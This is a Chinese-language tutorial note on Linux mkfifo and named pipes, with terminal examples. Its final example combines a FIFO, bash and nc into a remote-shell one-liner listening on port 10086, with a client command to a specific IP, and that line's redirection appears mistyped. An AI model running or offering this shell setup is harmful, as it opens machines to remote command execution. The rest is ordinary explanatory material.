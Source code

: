 # Linux mkfifo

> 也可以使用mknod来生成

## Digest

`mkfifo`命令用于创建FIFO(命名管道符)。

### 命名管道符 VS 匿名管道符

==管道符用于创建程序之间的通信通道==（管道相当于一个通道，使用FIFO策略）

- 匿名管道符`|`，我们可以使用`-`来占位，例如`openssl rand -hex 10 | xxd -`等价`openssl rand -hex 10 | xxd`
- 我们使用`mkfifo`来创建命名管道符

> 我们可以使用匿名管道符来传递数据，但是这中方式有一个缺陷。只能由同一个祖先进程启动。所以我们可以使用命名管道符（在Linux一切皆文件）

```
terminal01
root in /opt/test λ mkfifo pipe2 #创建一个命名管道符
root in /opt/test λ ll
|rw-r--r-- root root 0 B Thu Jan  7 07:25:45 2021  pipe2     
root in /opt/test λ echo "hello to pipe2" > pipe2  #将需要传输的内容写入管道中，由于是echo进程启动的，所以管道符会一直阻塞echo进程，知道管道符中的内容被读取

----

terminal02
root in ~ λcat < /opt/test/pipe2 #读取管道中内容
       STDIN
   1   hello to pipe2 

```

管道符有三种权限策略（与文件权限相同），我们可以通过`-m`参数来指定

```
root in /opt/test λ mkfifo pipe2 -m 700                                  /0.0s
root in /opt/test λ ll
|rwx------ root root 0 B Thu Jan  7 07:35:53 2021  pipe2                /0.0s
```

## 案例

使用nc创建管道符，实现reserveshell

```
#server side 
root in /tmp mkfifo /tmp/pipe2
root in /tmp λ cat /tmp/pipe2 | /bin/bash -i 2&>1  | nc -l 10086 > /tmp/pipe2 

#client side 
root in /opt/test λ nc 8.135.0.171 10086
```

